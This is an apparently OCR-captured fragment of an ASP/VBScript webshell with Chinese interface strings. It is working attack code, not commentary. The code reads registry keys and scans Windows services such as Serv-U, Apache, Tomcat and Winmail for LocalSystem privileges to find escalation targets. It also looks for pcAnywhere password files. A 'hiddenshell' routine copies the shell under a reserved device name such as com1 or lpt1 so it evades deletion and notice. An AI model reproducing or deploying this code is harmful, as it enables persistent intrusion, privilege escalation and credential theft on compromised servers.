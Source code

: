 NTMLkey="HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\TelnetServer\1.0\NTML"
ntml=Wsh.RegRead(NTMLkey)
if ntml="" Then Ntml=1
j"<li>Telnet Ntml设置为:"&ntml&"<br>"
hk="HKLM\SYSTEM\ControlSet001\Services\Tcpip\Enum\Count"
kk=wsh.RegRead(hk)
j"<li>当前活动_网卡为:"&kk&"<br>"
j"------------------------------------<br><br><br>"
j"[服务器弱_点探测]<br><hr>"
Set objComputer = GetObject("WinNT://.")
Set sa = Server.CreateObject("Shell.Application")
objComputer.Filter = Array("Service")
On Error Resume Next
For Each objService In objComputer
if objService.Name="Serv-U" Then
if objService.ServiceAccountName="LocalSystem" Then
j"<li>_Serv-U安装,且以LocalSystem权限启动<br>"
End if
End if
if lcase(objService.Name)="apache" Then
if objService.ServiceAccountName="LocalSystem" Then
If instr(Request.ServerVariables("SERVER_SOFTWARE"),"Apache") Then
j"<li>当前WEB服务器为Apache. 可能是SYSTEM<br>"
Else
j" <li>_Apache服务存在,启动权限为LocalSystem<br>"
End if
end if
End if
if instr(lcase(objService.Name),"tomcat") Then
if objService.ServiceAccountName="LocalSystem" Then
j"<li>_Tomcat,且以LocalSystem权限启动<br>"
End if
End if
if instr(lcase(objService.Name),"winmail") Then
if objService.ServiceAccountName="LocalSystem" Then
j"<li>_Magic Winmail,且以LocalSystem权限启动<br>"
End if
End if
Next
Set fso=Server.Createobject(CONST_FSO)
Sysdrive=left(Fso.GetspecialFolder(2),2)
servername=wsh.RegRead("HKLM\SYSTEM\CurrentControlSet\Control\ComputerName\ComputerName\ComputerName")
If fso.FileExists(sysdriver&"\Documents And Settings\All Users\Application Data\Symantec\"&servername&".cif") Then
j"<li>发现_pcAnywhere密码文件"
End if
End Sub

sub hiddenshell
fpath=Server.MapPath(Request.ServerVariables("SCRIPT_NAME"))
set fso=server.createobject(CONST_FSO)
pex="com1|com2|com3|com4|com5|com6|com7|com8|com9|lpt1|lpt2|lpt3|lpt4|lpt5|lpt6|lpt7|lpt8|lpt9"
rndpex=split(pex,"|")(rndnumber(0,17))
session("seljw")=""
filepath1=server.mappath(".")
filename1=right(fpath,len(fpath)-instrrev(fpath,"\"))
url=request.servervariables("url")
url=left(url,instrrev(url,"/"))&rndpex&"."&filename1
fso.copyfile fpath,"\\.\"&filepath1&"\"&rndpex&"."&filename1
set fso=nothing
j "<script>parent.location='http://"&request("server_name")&url&"';</script>"
end sub
Sub Message(state,msg,flag)